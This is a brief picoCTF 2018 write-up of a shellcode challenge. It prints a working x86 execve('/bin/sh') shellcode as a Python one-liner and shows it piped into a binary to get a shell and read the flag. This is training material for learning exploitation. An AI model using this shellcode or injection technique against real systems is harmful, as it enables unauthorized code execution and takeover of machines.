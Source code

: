 # shellcode
slopey112 - 4/11/19

This binary is incredibly straightforward. It takes a string and executes it. 
```
root@kali:~/Crack Me# ./vuln
Enter a string!
some shellcode
some shellcode
Thanks! Executing now...
Segmentation fault
```
So all we really need to do is pass in shellcode as our string. We'll use our [trusty shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) and pass it in.
```
slopey112@pico-2018-shell:/problems/shellcode_2_0caa0f1860741079dd0a66ccf032c5f4$ (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'";cat) | ./vuln     
```
And we get our shell.
```
Enter a string!                                                                                                
1Ph//shh/binI°                                                                                                 
              ̀1@̀                                                                                             
Thanks! Executing now...                                                                                       
whoami                                                                                                         
slopey112                                                                                                      
cat flag.txt                                                                                                   
picoCTF{shellc0de_w00h00_8b811b44}
```
